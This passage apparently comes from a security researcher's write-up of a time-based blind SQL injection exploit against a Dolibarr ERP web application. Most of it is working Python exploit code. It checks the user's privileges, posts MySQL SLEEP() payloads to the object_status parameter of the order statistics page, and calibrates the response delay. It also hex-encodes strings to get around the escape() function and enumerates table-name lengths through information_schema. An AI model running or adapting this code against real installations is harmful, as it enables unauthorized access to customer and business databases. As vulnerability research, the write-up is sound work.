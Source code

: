 ```python
            print(f"    [*] id found: {id}")
        r = SESSION.get(f"{url}user/perms.php?{id}", verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        for img in soup.find_all("img"):
            if img.get("title") in ["Actif", "Active"]:
                for td in img.parent.parent.find_all("td"):
                    privileges = [
                        "Consulter les commandes clients", "Read customers orders"]
                    for privilege in privileges:
                        if privilege in td:
                            if DEBUG:
                                print(
                                    f"    [*] Check privileges: {privilege}")
                            return 1
    if DEBUG:
        print(f"[*] At the sight of the privileges, the exploit may fail")
    return 0
```

Let's calculate the average delay induced by the MySQL `SLEEP()` function:

```python
def check(url, payload):
    headers = {
        "Referer": f"{url}commande/stats/index.php?leftmenu=orders"
    }
    datas = {"object_status": payload}
    r = SESSION.post(url=f"{url}commande/stats/index.php",
                     data=datas, headers=headers, verify=False)
    return r.elapsed.total_seconds()


def evaluate_delay(url):
    global DELTA
    deltas = []
    payload = f"IF(0<1, SLEEP({DELAY}), SLEEP(0))"
    for _ in range(4):
        deltas.append(check(url, payload))
    DELTA = sum(deltas)/len(deltas)
    if DEBUG:
        print(f"    [+] Delta: {DELTA}")
```

It is during the development of the function allowing to find the prefix that I was confronted to bypass the `escape()` function, what I hadn't noticed when writing the previous chapter. Characters such as `"` and `'` are being replaced by the following strings `\"`, `\'`. But it is enough to convert our strings into hexadecimal in order to bypass this mechanism.

Example: `%_product_warehouse_properties` become `0x255F70726F647563745F77617265686F7573655F70726F70657274696573`

```python
def hex(text):
    return "0x" + binascii.hexlify(text.encode()).decode()
```

Which is directly used in the following function to calculate the table's name length of which a part is known.

```python
def get_tbl_name_len(url):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_name LIKE {hex(LIKE)})>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
```
